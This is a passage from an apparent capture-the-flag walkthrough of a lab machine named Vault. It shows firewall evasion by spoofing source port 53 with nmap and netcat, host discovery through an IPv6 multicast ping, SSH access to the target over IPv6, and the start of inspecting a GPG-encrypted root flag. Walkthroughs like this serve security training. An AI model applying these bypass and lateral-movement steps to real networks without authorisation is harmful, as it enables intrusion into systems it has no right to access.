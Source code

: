 4444/tcp closed krb524

There is a possibility that this response is just poor firewall design and that the reason that 53 responded as closed was because the firewall may be letting anything that looks like DNS traffic through to the box. You can re-run nmap but specify the source port as 53. This gives an open port 987

PORT STATE SERVICE

987/tcp open unknown

Running netcat to connect to that port returns and SSH banner suggesting that you can SSH onto that box.

root@DNS:/home/dave\# nc -p 53 Vault 987

SSH-2.0-OpenSSH\_7.2p2 Ubuntu-4ubuntu2.4

There are a couple of ways of getting around the firewall restriction to get to the Vault machine. The easiest however is to use Ipv6. In order to do that, you need to find the Ipv6 address of Vault. If you ping the Ipv6 broadcast address, the ping will go to all hosts on the network connected to the "ens3" network interface:

root@DNS:/home/dave\# ping6 -I ens3 ff02::1

PING ff02::1\(ff02::1\) from fe80::5054:ff:fe17:ab49 ens3: 56 data bytes

64 bytes from fe80::5054:ff:fe17:ab49: icmp\_seq=1 ttl=64 time=0.026 ms

64 bytes from fe80::5054:ff:fec6:7066: icmp\_seq=1 ttl=64 time=2.48 ms \(DUP!\)

64 bytes from fe80::5054:ff:fe3a:3bd5: icmp\_seq=1 ttl=64 time=2.49 ms \(DUP!\)

64 bytes from fe80::5054:ff:fee1:7441: icmp\_seq=1 ttl=64 time=3.03 ms \(DUP!\)

From this, you get 4 responses. The first response from fe80::5054:ff:fe17:ab49 you know is from the DNS machine as you can see its Ipv6 address using the ifconfig command. Using the nmap command, you can check which machine has port 987 open and you find that it is the machine with the Ipv6 address fe80::5054:ff:fec6:7066.

We can then just ssh in using the ssh command:

ssh -p 987 dave@fe80::5054:ff:fec6:7066%ens3

Once on the box, you can see the root flag that is encrypted using GPG. You can use the gpg application to get more information about the file and find that it has been encrypted using an RSA key with the ID D1EB1F03.

dave@vault:~$ ls

root.txt.gpg

dave@vault:~$ gpg root.txt.gpg

gpg: directory \`/home/dave/.gnupg' created

gpg: new configuration file \`/home/dave/.gnupg/gpg.conf' created

gpg: WARNING: options in \`/home/dave/.gnupg/gpg.conf' are not yet active during this run

gpg: keyring \`/home/dave/.gnupg/secring.gpg' created

gpg: keyring \`/home/dave/.gnupg/pubring.gpg' created

